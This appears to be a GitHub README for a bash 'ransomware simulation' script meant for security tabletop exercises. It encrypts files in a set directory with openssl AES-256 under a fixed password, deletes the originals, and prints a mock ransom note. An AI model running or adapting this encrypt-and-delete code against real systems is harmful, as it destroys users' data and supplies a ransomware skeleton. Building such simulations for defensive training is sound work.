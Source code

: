 # ransomware simulation script
CCreated a script that has similar effects of ransomware for use in tabletop security exercises and defense exercises 

The BASH scripting language was used to create this script but it can be edited for use on Windows systems. The script encrypts the files on the specified directory using AES256 symmetric but it can always be decrypted with a password. 

##SCRIPT

##Directory to "encrypt" files in <br />
TARGET_DIR="/home/workstation/Downloads" #input the path to the directory you want to encrypt <br />

##Encryption key<br />
ENCRYPTION_KEY="passwords"<br />

##Check if the target directory exists<br />
if [ ! -d "$TARGET_DIR" ]; then<br />
  echo "Directory $TARGET_DIR does not exist."<br />
  exit 1<br />
fi<br />

##Encrypt existing files using AES-256<br />
echo "Encrypting files in $TARGET_DIR..."<br />
for FILE in "$TARGET_DIR"/*.txt.cis; do<br />
  if [ -f "$FILE" ]; then<br />
    # Encrypt the file in aes256 and add .encrypted to the end<br />
    openssl enc -aes-256-cbc -in "$FILE" -out "${FILE}.encrypted" -pass pass:"$ENCRYPTION_KEY"<br />
    rm "$FILE" # Remove original file<br />
    echo "$FILE has been encrypted."<br />
  fi<br />
done<br />

##Display ransom note<br />
echo -e "\nYour files have been 'encrypted'. To recover them, follow the steps listed. report and we sell data"<br />
